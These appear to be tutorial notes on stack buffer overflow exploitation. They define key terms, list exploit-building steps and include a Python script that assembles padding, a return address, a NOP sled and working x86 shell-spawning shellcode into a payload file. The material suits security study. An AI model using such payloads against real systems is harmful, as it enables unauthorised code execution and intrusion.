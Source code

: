 Key concepts in buffer overflow exploitation: 

```ad-important
1. Buffer: A temporary storage area in memory. 
2. Stack: A last-in-first-out (LIFO) data structure used for storing local variables and function call information. 
3. Heap: A region of memory used for dynamic memory allocation. 
4. Shellcode: A small piece of code used as the payload in exploits, often to spawn a shell. 
5. Return address: The address to which the program should return after executing a function.
```

Steps to create a buffer overflow exploit: 

```ad-summary
1. Identify the vulnerable function and input. 
2. Determine the buffer size and offset to the return address. 
3. Craft a payload that includes the shellcode and the new return address. 
4. Test and refine the exploit.
```

A simple example of a buffer overflow script would be the following:

```python
import struct

# Shellcode (Example: spawn a shell)

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# Buffer size and offset to return address

buffer_size = 100
offset = 76

# Crafting the payload

payload = b"A" * offset # Padding
payload += struct.pack("<I", 0xbffff1c0) # New return address (Example address)
payload += b"\x90" * 16 # NOP sled
payload += shellcode

# Write payload to file

with open("exploit.bin", "wb") as f:
    f.write(payload)
    
print(f'Exploit payload written to exploit.bin (size: {len(payload)} bytes')
```

This script generates a payload that includes: 

```ad-summary
1. Padding to fill the buffer 
2. A new return address (in this example, a hardcoded address) 
3. A NOP sled (a series of no-operation instructions) 
4. The shellcode 
```
